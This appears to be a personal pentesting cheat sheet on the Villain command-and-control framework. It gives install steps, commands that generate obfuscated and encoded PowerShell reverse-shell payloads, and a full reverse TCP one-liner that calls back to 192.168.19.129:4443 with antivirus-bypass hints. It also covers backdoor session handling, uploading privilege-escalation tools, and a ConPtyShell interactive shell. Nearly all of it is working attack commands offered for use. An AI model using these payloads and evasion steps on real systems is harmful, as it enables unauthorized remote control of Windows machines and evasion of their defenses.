 ```
git clone https://github.com/t3l3machus/Villain
```
```
cd Villain
```
```
pip3 install -r requirements.txt
```
```
sudo apt update && sudo apt install gnome-terminal
```
```
python3 Villain.py
```
Standard payload - demo'd below
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0
```
Obfuscated payload
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 obfuscate
```
Base64 encoded
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode
```
Constraint mode
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 constraint_mode
```
Use [[Invoke-Obfuscate]] OR the method below to attempt AV bypass.
`Start-Process $PSHOME\powershell.exe -ArgumentList {$client = New-Object System.Net.Sockets.TCPClient('192.168.19.129',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -WindowStyle Hidden`
The payload as printed will not bypass Windows Defender.
[[5._firewall and AntiVirus#PowerShell manual obfuscation]]
```
backdoors
```
Session ID                           IP Address           Shell            Listener  Stability  Status
3ee028-3f8986-ddcf3f  192.168.19.131  powershell.exe  netcat    Stable     Active
```
shell 3ee028-3f8986-ddcf3f
```
Disable Window protections:
[[5._firewall and AntiVirus]]
Upload tools:
[[0.__PrivEsc Tools (WINDOWS)]]
#### Uploading a file
```
upload /home/kali/Desktop/Invoke-winPEAS.ps1 C:\Users\Target\Desktop\Invoke-winPEAS.ps1 3ee028-3f8986-ddcf3f
```
#### Siblings
```
connect $KALI 6501
```
```
siblings
```
#### Chat
Simply add a `#` before any message to broadcast out.
```
#Chat Test!
```
#### conptyshell
ConPtyShell is a Fully Interactive Reverse Shell for Windows systems.
```
conptyshell eth0 9999 3ee028-3f8986-ddcf3f
```